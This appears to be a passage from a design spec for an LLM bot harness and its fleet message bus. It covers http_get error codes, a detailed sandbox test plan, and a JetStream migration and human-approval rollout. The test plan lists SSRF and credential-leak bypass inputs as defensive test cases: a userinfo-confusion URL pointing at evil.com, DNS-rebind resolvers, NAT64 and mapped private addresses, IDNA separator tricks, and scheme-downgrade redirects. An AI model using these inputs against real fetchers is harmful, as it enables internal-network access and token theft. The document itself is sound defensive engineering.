- The URL normaliser raised `http_get_bad_redirect` for faults in the **model-supplied initial URL** — where there is no `Location` at all. Hop zero and a redirect hop are different failures with different causes and now have different codes: `http_get_invalid_url` and `http_get_bad_redirect`. **§11's per-hop userinfo control must state which hop it exercises**, since the correct code differs. **The redirect-hop half of that pair has a code because this list now gives it one:** a `Location` of `https://api.github.com@evil.com/` is present and parses, so "missing or malformed" never covered it, and the "and nothing else" clamp actively excluded it — leaving a refusal this document mandates with no code to report it, and an implementer reaching for `http_get_transport_error`, the honest-ignorance code, for a refusal that is not ignorance. The clamp now enumerates the predicates instead of excluding them.
- The resolver path mapped `gaierror` to `http_get_blocked_address`, so **a typo'd hostname came back to the model as an SSRF refusal.** Split at the only line that actually matters: the §9 check ran and refused every answer (`blocked_address`), versus there was never an answer to check (`transport_error`).
- The connect path mapped connect and TLS failures to `http_get_blocked_address`, so **a refused connection to a perfectly public host reached the model as an SSRF refusal.** `blocked_address` means the address failed the §9 check and nothing else; a connection that was allowed and then failed is `http_get_transport_error`.

An implementation's catch-all handler MUST map to `http_get_transport_error`, never to `http_get_bad_redirect` or any other named condition.

**Where `http_get_blocked_address` legitimately belongs, stated positively so the next reader does not have to infer it from four corrections:** the post-resolution `is_global` refusal, and §9.4's **static** blocked-TLD check — both are the §9 check running and refusing. **The trailing-dot residue is now FIXED rather than recorded**, and both halves of the pair moved together: a trailing dot violates §9.4.1's authority grammar rather than naming a forbidden destination, so it is `http_get_invalid_url` on hop zero and `http_get_bad_redirect` on a redirect hop — **never `blocked_address`, UNLESS the host is also under the blocked-name set, in which case the blocked-name refusal wins and the code is `http_get_blocked_address` on either hop.** **The unqualified "never" contradicted §11 and no implementation could satisfy both.** §11 requires `http://svc.internal\u3002/x` to assert the blocked-name refusal, and post-IDNA that host IS `svc.internal.` — trailing-dot-bearing. The only way to make the separator form a blocked-name refusal while the plain `svc.internal.` is a grammar refusal is for the two predicates to read different forms of the host, which is precisely the defect §9.3.3 now forbids. **The predicates are therefore ORDERED: blocked name first, trailing dot second**, both on the post-IDNA form. A consequence worth stating because it changes behaviour: plain ASCII `http://svc.internal./x` is now `http_get_blocked_address` rather than `invalid_url` — naming a forbidden destination is the more specific fact about it, and the grammar code is what remains for a trailing dot on a host nobody blocked. It was previously listed here as known residue while the normative enumerations above named it in neither, which left `https://example.com./x` refused as `blocked_address` by one implementation and `invalid_url` by another, both citing this section. Fixing only the redirect half — as an earlier revision of this list did — was the same one-half-of-a-pair miss this document keeps committing. Found in the v0.4c implementation, where a socket error, a TLS handshake failure and a result-encoding failure all reached the model as "bad redirect" — a precise claim about a precise thing, made about failures that were none of them. **A generic code is honest about not knowing; a borrowed specific code is a lie**, and §9.3's rule about lies applies to error identity exactly as it applies to truncated bodies.
- **Tool credentials file invalid (v0.4c+)** — fatal at startup, naming the offender. Covers every fail-closed rule in §9.4.1 (unparseable YAML, non-mapping root, `version` not an `int` or not `1` — `type(version) is int`, since `version: true` passes a bare `== 1`, unknown key, **duplicate mapping key at any level**, **alias or merge key**, non-list `credentials`, an entry that is not a mapping or does not carry exactly the four keys `id`/`host`/`header`/`value`, any field that is not a non-empty `str`, a `header` that is not an RFC 9110 field-name token, a `value` containing CR/LF/NUL or surrounding whitespace, an `id` equal to or containing the complete `value`, a `host` violating the authority grammar (empty, trailing `:`, non-decimal or out-of-range port, leading-zero port, multiple colons, non-ASCII, trailing dot, **or any IP literal**), a **duplicate normalised origin** or duplicate `id`, a host ending in a blocked TLD) plus the §5 location and mode rules: the file MUST be outside `$YUGO_WORKSPACE_PATH` and MUST satisfy `mode & 0o077 == 0`. An **absent** credentials file is NOT an error — every host is then fetched unauthenticated.
- **`openat2` unavailable while a filesystem tool is granted (v0.4b+)** — fatal at startup, naming the reason (§9.2). No silent degradation to path validation.

## 11 — Testing

- v0.1 — manual (docker compose up, send Discord message)
- v0.2 — unit tests for history buffer, chunking, code-fence handling
- **This document's own tables, mandatory and automatable.** Every row of a GFM table MUST **begin AND end with `|`**, carry exactly the delimiter row's cell count, contain no blank line and no non-pipe line inside the table, and escape any literal `|` in cell text. **The terminator clause is not decoration and was missing from the first version of this control:** a row written `| a | b | c` — three separators, no trailing pipe — has the same pipe count as a well-formed two-column row, so a checker comparing counts alone reports it clean while GFM truncates the surplus cell and drops its text from the render. The first implementation of this very control had exactly that blind spot and passed a file carrying three such rows. Count separators, require the terminator, and reject a non-pipe line before the table's blank line. **Three tables in §9.3.3 and §9.4 were structurally broken across six revisions and no pass caught them**, because a row with a surplus cell renders as if the surplus were absent and a row missing its terminator silently ends the table — so the reviewer reading the source and the reader seeing the render disagree about which rules exist. In one case the orphan cell held the exact wording a fold had just deleted, sitting beside its replacement; in another, the **No MIME sniffing**, **response headers not exposed** and **204 is an answer** rules all fell outside their table. A ten-line cell-count check over the file is the whole control, and it catches what six adversarial passes did not
- v0.3 — **§7.2 audit-identity controls, mandatory. They govern SHIPPED code** (`fleet_bus.py`), so they land here rather than under a future slice. §7.2 calls for controls three times and none of them were ever written into this section; `about_type`, `action_id`, `terminal` and `stage` appeared nowhere outside §7.2 itself. **Schema pairs, each half required:** a record carrying both `id` and `action_id` is rejected AND one carrying neither is rejected; `terminal` on an `action` record is rejected AND its absence on an `envelope` record is rejected; `about_type` outside its two values and `stage` outside its three are rejected. **Uniqueness:** exactly one `terminal: true` per `(envelope id, stage)` — with the negative control that **zero** is also a failure, since a suite asserting only "not two" passes an implementation that writes none. **The redelivery case explicitly:** an envelope delivered twice, the second absorbed by de-dup, still yields exactly one terminal record at that stage — this fails an implementation that audits the de-dup drop as terminal. **The outbound case explicitly:** a successfully published envelope carries a terminal `out` record at `stage: sender` — this fails an implementation whose enumeration is inbound-only. **And `caused_by`, which had no control anywhere — both halves, since this bullet's own rule is that each half is required:** a record triggered by another envelope MUST carry it, asserted against a record pair whose causal link is the only thing distinguishing them, **AND a record about the envelope it names MUST NOT carry it** — specifically `caused_by == id` is rejected. The second half is what fails an implementation that stamps `caused_by = id` everywhere, which otherwise passes the first half and every other control here. Without that last one an implementation that never emits `caused_by` at all passes every control §7.2 names, while losing the causal link that is half the reason the section exists — a control set a wrong implementation passes clean
- v0.3 — port fleet-bus compat test suite as codex-container will
- v0.4 — sandbox tests: SSRF probe, path traversal probe, egress denial confirmed, audit-tampering probe fails. **Two are mandatory and named in §9:** the **intermediate-directory swap** (§9.2 — a confinement suite that only swaps the final component passes against the very implementation §9.2 forbids, so it must carry a control that trips), and the §9.1 grant-grammar cases (duplicate tool name, non-mapping `tools`, wrong `version`, unknown key, group/world-writable file), each asserting a *named* startup abort rather than merely that startup failed. **v0.4c's additions are all mandatory** (the count that stood here said "seven" and the list below has always enumerated more; a number that disagrees with its own list invites a reader to stop early, so it is gone rather than corrected to a figure the next edit will stale again): the cross-origin redirect credential drop **with a control that trips** (an implementation that keeps the credential across origins MUST fail it — without the control a same-origin-redirect test passes against both implementations and proves nothing); its **paired positive**, a same-origin 302 that KEEPS the header, including the `https://host` → `https://host:443` case which MUST be treated as the same origin — the two together are what pin §9.4's selection/forwarding split, and either alone is satisfied by a wrong implementation; a **credential is never re-attached** after a chain returns to its original origin, and never selected mid-chain; a **port-differing origin gets no credential** (`https://api.github.com:8443` with a credential for `api.github.com`) — **and, separately and mandatorily, the FORWARDING half of the same comparison**: a 302 from `https://api.github.com/x` to `https://api.github.com:8443/x` and one to `http://api.github.com/x` MUST both drop the credential, asserted by its absence from the bytes sent on hop two. **The selection half was controlled and the forwarding half was not**, so replacing the redirect-drop comparison with a host-only test — `next_origin.host != selected.origin.host` — passes the entire suite. Every existing drop control changes the HOST, so none can see a scheme downgrade or a port change, and that mutation puts a bearer token on the wire **in cleartext**; the credential value absent from BOTH the audit line and the tool result — **and both halves asserted separately, since a control reading only the result leaves the audit half unpinned**, exercised against a reflector response that echoes request headers — and, as a **documented negative**, a base64-reflecting endpoint that this test does NOT claim to defeat, so a later reader does not mistake literal redaction for secrecy; the §9.4.1 grammar cases each asserting a *named* abort (duplicate mapping key inside one entry, merge key, entry with a fifth key, `value: true`, `header: X-Bad Name`, a `value` containing `\r\n`, duplicate normalised origin across `api.github.com` and `api.github.com:443`); `https://api.github.com@evil.com/` receiving no credential; the §9.3.3 bounds suite, which is mostly controls rather than cases: **DNS-rebind pinning** — a resolver that answers public on the first call and private on every call after it: the fetch **SUCCEEDS against the pinned public address**, and the control asserts that the address connected to is the one that was validated, and that the private endpoint's distinctive body never appears in the result. **The earlier wording asserted the opposite and no implementation could pass it** — it required the fetch to fail, which a *correct* pinning implementation does not do, since it never asks the resolver a second time; only an implementation that refuses everything went green, which is precisely what the appended vacuity clause claimed to prevent. The vacuity control is now the other half: a check-then-use implementation, which re-resolves before connecting, MUST fail this test by reaching the private address; **compressed expansion** — a small `gzip` body decoding past `max_bytes` is refused, which fails against a wire-bytes-only implementation; **lying and missing `Content-Length` — TWO separate controls with OPPOSITE expected outcomes, and conflating them produced a requirement no implementation could satisfy.** (a) **The size control:** a response declaring `Content-Length: 1024` while streaming past `max_bytes`, and a chunked response carrying no length that likewise streams past `max_bytes`, are both refused with `http_get_size_cap`. The size belongs in both clauses — without it the second reads as refusing *any* chunked response with no `Content-Length`, which is most ordinary HTTP/1.1 traffic and an error §9.3.3 names nowhere, since the rule forbids *trusting* `Content-Length` and never required its presence. (b) **The framing control, whose expected outcome is a SUCCESSFUL fetch:** with `max_bytes` at 4 MiB and a 2 MiB body declaring `Content-Length: 1024`, a conforming implementation returns **the whole 2 MiB body**, and an implementation that truncates to the declared length returns 1024 bytes and FAILS. Exercised in two delivery shapes — the whole body inside the first read, and dribbled across several — because a body arriving entirely in the header read trips the wire bound before the `Content-Length` branch is ever consulted, so a single-shape control passes a truncating implementation. **The previous revision asserted a refusal for both and then required `max_bytes` be set high enough that no size bound could fire — a setup that forbids the only thing that could produce the asserted refusal.** It also named a 10 MiB body, which is unreachable: `max_bytes`'s range is `1 .. 4 MiB`, so 10 MiB trips the size cap under *every legal configuration* and can never isolate framing; **total-not-per-hop timeout** — a chain of hops each individually fast enough must still expire, which fails against a per-hop implementation; **and the OTHER half of `min(timeout_ms, remaining turn budget)`, which needs an input where the BUDGET is the smaller term** — `timeout_ms: 30000` against a remaining budget of `0.05s` must expire at 0.05s, plus an end-to-end case asserting the budget actually reaches `http_get`. A control passing `timeout_ms=50, remaining_budget=1` resolves the `min()` to `timeout_ms` and **cannot exercise the budget branch at all**, so an implementation treating `timeout_ms` as a second independent deadline — the exact mistake this rule exists to forbid — passes it; **the exact redirect boundary INCLUDING zero** — `max_redirects: 0` performs one request and refuses the first redirect, `N` permits `N+1` requests and refuses the `N+1`th redirect. **The `N ≥ 1` refusal is required, not just the `N = 0` one:** a suite covering only zero passes an implementation whose cap fires exclusively at zero and follows redirects forever at the shipped default of 5, which is the configuration every bot runs; **the result shape**, asserting that a 404 returns as a result with status 404 rather than a transport error, since that is the case §9.4.1's credential-attachment signal exists to disambiguate — **and a body that attempts to spoof the metadata**, containing lines shaped like `status: 200` and `credential_id: github-review`, proving the serialisation cannot be impersonated; **the WIRE cap independently of the decoded cap**, each with a control that fails when that one bound alone is removed, since a suite covering only decoded expansion passes an implementation with no wire bound at all; **the 64 KiB cumulative header cap**, exercised with a header block of **exactly 65537 bytes** — 65533 of head plus the four-byte terminator — delivered so that **every loop-top check saw fewer than 65536 bytes** and the terminator arrives on a final short read. That is the only block size that can overshoot the cap while the in-loop guard never fires, so it is the only shape that exercises the post-loop check; a socket fake returning the full requested length can never produce it. **An earlier revision of this control said "the terminator landing at 65535", which is unreachable:** the header read is bounded by `min(4096, MAX_HEADER_BYTES + 1 - len(data))`, so the buffer can never exceed 65537 and a 65539-byte block never completes. A control naming an impossible input is not a weaker control, it is an absent one; **the header cap counts header bytes ONLY**, with a control that fails an implementation charging redirect overshoot to it, since that overshoot is charged against no bound at all; **that a redirect body is never charged and never drained** — the operative control is that **the discarded body costs nothing**: a chain whose 1 MiB 302 body would exceed `max_bytes` if billed must still SUCCEED, which fails any implementation that charges it. Paired with a control that an implementation *draining* the body — issuing further reads after the header terminator — MUST fail, asserted by counting reads rather than bytes. **Do NOT assert a byte count of zero:** that forces a one-byte-at-a-time header read to satisfy, which is a syscall cost with no security value. **The rule and this control were three different statements across two revisions** — "without unbounded draining" (no figure), "closed without draining" (zero), then "at most 8 KiB, charged" (an upper bound, billed) — and no implementation could satisfy the rule and its control at once. One figure now, in every place: zero; **IPv4-mapped normalisation** — asserted with **`::ffff:100.64.0.1`**, NOT `::ffff:127.0.0.1`: on CPython the mapped-loopback form is already non-global, so it passes with the normalisation deleted and cannot discriminate. **NAT64 refusal** — `64:ff9b::a00:1` (embeds `10.0.0.1`) and `64:ff9b::7f00:1` (embeds `127.0.0.1`). **Multicast refusal** — `239.255.255.250` and `ff02::1`. **The last two are controls against the obvious wrong implementation:** `is_global` returns `True` for all four, so each fails an implementation whose entire predicate is `if not ip.is_global` and **IPv6 link-local refusal** (`fe80::/10`); **Host/SNI/certificate hostname preservation while connecting to the pinned address** — a pinning test that passes by disabling certificate identity has tested the wrong thing and must itself fail; **media-type and charset allow AND reject controls**, including that `application/json` is ACCEPTED, which the pre-v12.17 wording would have refused; **repeated header field lines** — `Content-Type` twice, `Content-Encoding` twice and `Location` twice, each refused with its named error, **and the `Content-Type` case asserted in BOTH field orders**: an implementation that comma-joins and then prefix-matches accepts `text/plain, image/png` while refusing `image/png, text/plain`, so a single-order control passes it; **alternate IDNA label separators** — `http://svc.internal\u3002/x`, `http://x.onion\uff0e/x`, `http://printer.local\uff61/x`, and **an INTERIOR separator carrying no trailing dot at all** (`http://a\u3002internal/x`, post-IDNA `a.internal`) — all asserting the blocked-name refusal; plus a bare `http://example.com\u3002/x` asserting `http_get_invalid_url`, which is the pair's other half and the only one the grammar code still owns. **Also required, ON HOP ZERO as well as on a redirect hop: plain ASCII `http://svc.internal./x` asserts `http_get_blocked_address`, not `invalid_url`** — the ordering rule made this change and no control covered it, because every existing trailing-dot case used a host nobody blocked. All exercised on hop zero AND on a redirect hop, since **an ASCII-only control passes an implementation that splits its host checks across the pre- and post-IDNA forms**; **relative `Location` resolution** and **per-hop userinfo rejection**; and **URL length refusal** on both the initial URL and a resolved redirect target; plus the authority-grammar rejections, each asserting a *named* abort (`api.github.com:`, `:-1`, `:0`, `:99999`, `:0443`, `10.0.0.1`, `[::1]`, `version: true`) — the last of which is a control for the bool trap, not a case, and must fail against an implementation that checks `version == 1`; and, **mandatory and paired with them, POSITIVE grammar controls asserting that `api.github.com`, a single-character label (`a.example.com`), an interior hyphen (`my-api.example.com`), and an explicit `api.github.com:443` all PARSE.** Without these the authority suite is rejections only, and a parser that accepts NOTHING passes every one of them — the same control problem as the redirect drop test, in the same section, found the same way
- v0.5+ — engine adapter conformance tests (each adapter passes envelope round-trip, baton pass-through)
- v0.6+ — coordinator integration tests against mock fleet
- v0.7+ — HITL state machine tests + coordinator crash-recovery from sqlite

CI arrives at v0.2 (GitHub Actions: `docker build` + `python -m pytest`).

## 12 — Related

- [`artifice-ia/fleet-bus`](https://github.com/artifice-ia/fleet-bus) — substrate
- [`artifice-ia/fleet-bus/docs/CODEX-ADAPTER-DESIGN.md`](https://github.com/artifice-ia/fleet-bus/blob/main/docs/CODEX-ADAPTER-DESIGN.md) — v0.3's port target
- [`artifice-ia/claude-discord`](https://github.com/artifice-ia/claude-discord) — reference fleet-bus adapter for a non-yugo engine
- [`nousresearch/hermes-agent`](https://github.com/nousresearch/hermes-agent) — alternative engine, v0.5 first adapter target
- [LiteLLM docs](https://docs.litellm.ai/) — model strings, `api_base` conventions
- [NATS JetStream](https://docs.nats.io/nats-concepts/jetstream) — durability + replay + consumer groups fleet-bus migrates to

## 13 — Not decided (v1.0+)

- **Streaming** — deferred, revisited at v1.0. Trade: nicer UX vs LiteLLM streaming compat quirks.
- **Voice** — hermes-agent has it; yugo doesn't need it in v0.x.
- **Multi-guild / multi-channel per bot** — deferred. One bot = one channel today.
- **Repo split** — currently single-repo. If harness and coordinator diverge significantly, split at v1.0.

## 15 — Implementation phasing (slices + dependencies)

Each slice is a discrete PR. Dependency arrows are HARD (later slice cannot start before earlier one merges). Slices within the same version can go in any order unless a `→` says otherwise.

### v0.2 — conversation history

- **2a** — rolling per-thread deque (in-memory, `HISTORY_MAX_TURNS` config, no compaction)
- **2b** — optional LLM-summary compaction (opt-in via config; when history hits limit, summarize oldest N turns into one system message)

`2a → 2b`. 2a is complete enough to unblock v0.3 and v0.4 by itself.

### v0.3 — native harness fleet-bus adapter

- **3a** — NATS connect + subscribe (fleet.<self>.inbox/status, broadcast) + heartbeat + audit log. **No publish, no session injection yet.** Prove connection lifecycle + reconnect works cleanly. **See erratum E-1 below — the subject list on this line is wrong, and "no publish" does not exclude the heartbeat.**

#### Erratum E-1 (raised during v0.3a implementation, verified against source)

**The 3a line above says subscribe `fleet.<self>.inbox`. Do not. It subscribes `fleet.<self>.request`, `.result`, `.status` and `fleet.broadcast.>` over core NATS.**

- `.inbox` is a **post-JetStream-migration** subject. It comes into existence at **FB-1** and an adapter only moves onto it at its own **FB-3** PR. Neither has landed, so on the live bus `.inbox` has no publisher and no authz grant.
- §7 already says the right thing — *"Pre-FB-3 per-adapter flip, the adapter still subscribes `.request` directly for backward-compat"* — and §4.7 confirms the migration-window grant. §15's 3a line contradicts §7; **§7 wins.**
- The reference adapter subscribes exactly `.request` / `.result` / `.status` / `fleet.broadcast.>`. That is the live wire. **As of 2026-08-29 the deployed adapter is artifice-discord 0.7.0**, where the bus moved out of the plugin into the `@artifice-ia/fleet-bus` package (`src/fleet-bus.ts`, `FleetBus.connect`); earlier drafts of this line cited the plugin's own `src/fleet-bus.ts` at 0.4.0, which no longer exists.
- **`.result` is in that list because it exists TODAY, not because it survives.** §4.7 and §7 remove it, and Fernando confirmed removal on 2026-08-29 over the competing 08-28 "keep both channels, both gated" decision, which had been taken without the conflict being surfaced. So this passage describes a wire that is transitional in TWO directions: `.inbox` does not exist yet, and `.result` will not exist afterwards. Post-FB-3 the adapter subscribes `.inbox` / `.status` / `fleet.broadcast.>`, and a reply is an ordinary `.request` envelope carrying `in_reply_to`. Do not read this list as the target topology. Removal lands inside each adapter's FB-3 PR (see §15 FB-3) rather than as separate work, because that PR already rewrites the adapter.
- This is not a cosmetic string. Per-user NATS permissions do not grant subscribe on `.inbox`, and in `nats-py` a permissions violation invokes `error_cb` and **returns without closing the connection** (`Client._process_err`, the `PERMISSIONS_ERR` branch). A bot that subscribed `.inbox` would be connected, heartbeating and completely deaf — with every connection-lifecycle test still green.

**Also on that line: "no publish" means no envelope-publish API for LLM-authored traffic (that is 3c) and no `.request` publishes.** The `status_heartbeat` on `fleet.<self>.status` IS a publish and IS in 3a — §7 makes the heartbeat part of the adapter's presence contract, and without it the slice has no way to prove publish → server → subscribe → validate → audit end to end.

**Reconnect, while we are here:** `nats-py`'s defaults (`DEFAULT_MAX_RECONNECT_ATTEMPTS = 60` at a flat 2s) **abandon the connection permanently** once exhausted — the server is discarded from the pool and the client calls `close()`. Adapters MUST pass `max_reconnect_attempts=-1` (negative means infinite) or an outage longer than ~2 minutes leaves a bus-less bot until the process is restarted.
- **3b** — session-injection path (`_ask_bus`) for received envelopes. Bus-only turn routing (per §4.4/§8: bus-triggered turn = bus-only reply).
- **3c** — outbound `<BUS>` tag parser + publish (per envelope validation from §5).
- **3d** — baton field pass-through on inbound + outbound.
- **3e** — vendored schema + Dockerfile hash-check against upstream fleet-bus tag.

`3a → 3b → 3c`. 3d and 3e can land in parallel to 3b/3c. Depends on **v0.2a** (history for eventual tool_result appending, and for parity with Discord-mode context).

### v0.4 — tool loop + reduced-homelab sandbox

- **4a** — tool_calls loop scaffold (LiteLLM `tools=[...]` + tool_result appending). No actual tools yet — proves loop shape.
- **4b** — split in two. **4b-1** (shipped): grants read from `$YUGO_TOOLS_FILE` per §9.1, v0.4a's `## Tools` persona grammar deleted rather than left as a second live path. **4b-2**: `read_file` + `write_file` + `list_dir`, confined per §9.2, semantics per §9.3. Also lands the declaration move: tool grants read from `$YUGO_TOOLS_FILE`, and v0.4a's `## Tools` persona grammar is deleted rather than left as a second live path.
- **4c** — `http_get` with default-deny internal (blocklist per §9) + post-resolution IP check + redirect cap + per-host harness-injected credentials per §9.4 (model never supplies headers; credential dropped on cross-host redirect).
- **4d** — audit log at `$YUGO_TOOL_AUDIT_PATH` (default `/var/lib/yugo/tool-audit.jsonl`; outside `write_file` scope).
- **4e** — `SANDBOX_MODE` flag — **shipped**. Full-mode implementation stays deferred until the threat model changes; the flag exists so the deferral is visible rather than assumed. Scoped as "no code" and deliberately widened: a flag that parses and does nothing is worse than no flag, because it lets an operator believe the expensive guards are on. It validates and refuses instead. See §9 full mode.

`4a → 4b, 4c, 4d`. Depends on **v0.2a** (history for tool_result rounds).

### v0.5 — engine plugins

- **5a** — `EngineAdapter` Python Protocol (§14) + yugo native harness as reference implementation of the protocol (mostly a re-shape of what v0.3 already built).
- **5b** — codex-container adapter (Vec ports his Phase 3 work into the shape §14 declares).
- **5c** — claude-discord adapter — PR #22 already IS this; we just document it in yugo's adapter registry.
- **5d** — hermes-agent adapter (proof that an external engine can join via the protocol).
- **5x — `payload.class` retrofit sweep (S2-D v7, updated v8 S2-v)** — every existing adapter (5a native, 5b codex, 5c claude-discord, 5d hermes) MUST emit `payload.class` on all outbound envelopes. Classification sources per adapter type — spec is EXPLICIT (not left to implementer default), forbidding a blanket `chat` label as escape:
  - **Engine message-type mapping** (primary source): if the engine has a native message-type field (codex `stream_event.type == "tool_use.pr_review"`, hermes-agent `action_kind == "code_merge"`), map deterministically to the `payload.class` value.
  - **Tool-context derivation** (secondary): if the LLM is calling a tool (e.g. `github_merge_pr`, `stripe_charge`, `heroku_deploy`), the tool name maps to a class (`code_merge`, `spend`, `prod_op` respectively). Adapter maintains this map at `<adapter>/tool-class-map.yaml`. **Tools without a map entry → adapter emits envelope with `payload.class` UNSET (S2-3 v9 fix — was fail-open bypass in v8; now falls through classless short-circuit to `global_default` = approve, consistent with §7A.2 fail-closed).** Admin adds map entry to remove the HITL prompt for that tool.
  - **`<BUS>` tag override** (LLM-explicit, rare): if the LLM explicitly emits `<BUS class=spend>`, honor the declared class (subject to `max_declared_class` v0.7.x defense).
  - **FORBIDDEN**: unconditional `class = 'chat'` default. Adapter conformance test asserts a non-chat classification case (mock a tool call → verify class ≠ 'chat'). PR CI blocks merge if the test fails.
  - Adapter emits a `classification_source` audit field alongside class for every envelope: `engine_message_type` | `tool_context` | `bus_tag` | `default_chat` (the last only allowed for `text_message` payloads with no tool involvement — see envelope discriminant below).

  **Envelope payload discriminant (S2-4 v9 fix — was undefined in v8):** envelope's `payload.kind` field determines which classification-source rules apply:
  - `payload.kind = 'text_message'` — free-text bot-to-bot chat. `default_chat` classification allowed.
  - `payload.kind = 'tool_call'` — LLM invoked a tool. Classification MUST come from tool-context (or `bus_tag`). `default_chat` FORBIDDEN.
  - `payload.kind = 'pr_review_request' | 'pr_review_result' | ...` — engine-native structured. Classification MUST come from engine-message-type mapping.
  - `payload.kind` = anything else — coord treats as classless (fail-closed short-circuit per §7A.3).
  Conformance test asserts that an adapter emitting `payload.kind = 'tool_call'` with `classification_source = 'default_chat'` is REJECTED at CI.

  Landing this BEFORE 7b prevents "prompt storm at 7b first-day" AND prevents adapters silently defaulting everything to `chat` to escape gates.
- **5x-contrib — hermes-agent adapter home resolution (S2-vi v8 fix).** Since yugo does not control `nousresearch/hermes-agent`, adapter code lives at `artifice-ia/yugo/contrib-adapters/hermes/` — separate directory under yugo repo, versioned + reviewed independently, marked as third-party in adapter registry. Same shape for any future external-engine adapter.

`5a → 5b, 5c, 5d` (5b/5c/5d can go in parallel once 5a merges). `5x` blocks 7b — all adapters must ship classes before HITL turns on. Depends on **v0.3** (envelope + adapter shape).

### JetStream migration (parallel fleet-bus track, not a yugo version)

Blocks yugo v0.6 AND v0.7 (SEV1-C v6 correction; earlier drafts wrongly claimed "not v0.6"). Coordinator cannot exist without JetStream, so FB-1 + FB-2 land before v0.6a. Migration is designed to be **per-adapter incremental** — no fleet-wide atomic-lockstep outage window.

- **FB-1** — `nats.conf` JetStream enable + storage config for **BOTH** `fleet.*.request` streams AND `fleet.*.inbox` streams (SEV1-D v6 fix). Two stream families. Backward-compatible; existing subscribers still work on non-JetStream subjects during the migration window. **Stream retention limits declared** (SEV1-3 v7 fix): both families use `max_age: 7d`, `max_msgs_per_subject: 100000`, `discard: old`. Adapter persistent de-dup retention MUST be ≥ this max_age (default 8d = 1d slack). FB-1 PR also documents that `nats consumer rm` on a bot's `.inbox` durable requires the recovery procedure below, not a naive `create-with-default-DeliverPolicy`.
- **FB-2** — subject topology decision **declared and documented**: `.request` for sender-facing publish, `.inbox` for recipient-facing durable-consumer subscribe, coordinator bridges. `.result` subject class removed from the topology (see §7). No adapter code touched in this slice.
- **FB-3** — **adapter migration, one adapter per PR**. HARD DEP: v0.6a coordinator MUST be deployed AND its forward-loop verified live for that subject via smoke-test envelope BEFORE this PR merges (SEV1-B v6 fix; else the flipped bot goes deaf). Each adapter's PR does **eight** things atomically (S2-F v7 fix — de-dup + revoke tests inline, no longer deferred to FB-4; (f)–(h) added 2026-08-29 with the `.result` removal, because a five-item list that omitted them let an implementer complete the checklist and still be publishing to a subject this document says no longer exists):
  - (a) start subscribing `fleet.<self>.inbox` as durable JetStream consumer with `DeliverPolicy: New` on first-creation / `All` on re-creation (per §14 recovery rule)
  - (b) STOP subscribing `fleet.<self>.request` — closes SEV1-1 gap
  - (c) update `nats.conf` fragment to REVOKE that bot's subscribe permission on `.request`
  - (d) **inline conformance test**: persistent envelope-id de-dup verified — send envelope A, restart adapter, coordinator re-publishes A on `.inbox`, adapter drops via de-dup, on_envelope invoked exactly once total
  - (e) **inline conformance test**: subscribe-revoke enforced — post-merge, direct `nats sub fleet.<self>.request` from that bot's user is denied with `permissions violation`
  - (f) **migrate reply publication**: the adapter STOPS publishing to `fleet.<peer>.result` and publishes replies as ordinary envelopes on `fleet.<peer>.request` carrying `in_reply_to`. Correlation moves to `in_reply_to` + `root_id`; the coordinator gates replies by `root_id` per §7A.1
  - (g) **delete the `.result` receive path**: subscription, handler, and any inflight/waiter ledger keyed on that subject. In `artifice-discord` this is `onResult` plus the outbound waiter correlation added in 0.7.0 — working code, deliberately retired, not left dormant. A dormant handler on a revoked subject is a silently dead branch that reads as coverage
  - (h) **revoke `.result` authz in the SAME `nats.conf` fragment as (c)** — BOTH the bot's subscribe on `fleet.<self>.result` AND its publish on `fleet.*.result` — with an inline conformance test mirroring (e) **in BOTH directions**: a direct `nats pub fleet.<peer>.result` from that bot's user is denied with `permissions violation`, AND a direct `nats sub fleet.<self>.result` from that bot's user is denied the same way. **Publish-only would pass while half the topology survives** — a migration that deletes the code subscription but leaves the NATS subscribe grant satisfies a publish-side test and still holds a live credential on a subject this document says is gone. Item (e)'s `.request` test cannot cover a grant on a different subject. **Topology removal is incomplete while any credential can still use the subject.** Revoking subscribe alone leaves every bot able to publish to a channel nothing gates, and revoking publish alone leaves every bot able to read one
  - Adapters: `artifice-ia/claude-discord` (Vec's, PR #22 already restructures for this), `artifice-ia/codex-container` (Vec's Phase 3), yugo native harness v0.3.
- **FB-4** — GATE test suite in fleet-bus (broader coverage): durability tests + replay tests + stream retention limit tests + coordinator failover smoke. Per-adapter conformance tests already inline at FB-3 per S2-F. **The hold-critical tests are NOT here** — see the v0.7 7b gate below. FB-4 is the broad suite; anything v0.7's correctness depends on cannot live in a slice v0.7 declares optional.

`FB-1 → FB-2 → v0.6a → per-adapter FB-3 PRs land in any order → FB-4`.

**No FB-2b, no FB-4-relay-retirement.** The relay pattern is absorbed by coordinator v0.6a from birth. Coordinator is the SOLE durable consumer of `.request` streams from v0.6a onward — no window in which a separate relay durable coexists.

### v0.6 — coordinator skeleton

- **6a** — coordinator NATS role in `nats.conf` (subscribe broadly, publish to `fleet.*.inbox` + `fleet.coordinator.status`). Authz grants CO publish on `fleet.*.status` (S2-1 v9 fix — v7's `fleet.status.>` grant does NOT cover the renamed heartbeat subject `fleet.coordinator.status`; the `fleet.*.status` pattern covers both the fleet's per-bot status and the coordinator's own subject). **HARD DEP on FB-1 + FB-2 landed** (SEV1-C v6 fix); coordinator cannot exist without JetStream. **Coordinator starts life as an unopinionated pull-and-forward pattern** — creates its JetStream durable consumer on `fleet.*.request`, forwards every envelope to `fleet.<recipient>.inbox` (also a JetStream stream), acks after forward.
  - **DeliverPolicy rule for coordinator's `.request` durable (S2-B v7 fix):** initial creation = `DeliverPolicy=New`; re-creation (durable existed but was deleted) = `DeliverPolicy=All` with envelope-id de-dup at coordinator side. Coordinator maintains its own persistent de-dup store at `$YUGO_COORDINATOR_DEDUP_PATH` (default `<TASK_STATE_PATH-dir>/coord-dedup.sqlite`), retention ≥ `.request` stream max_age.
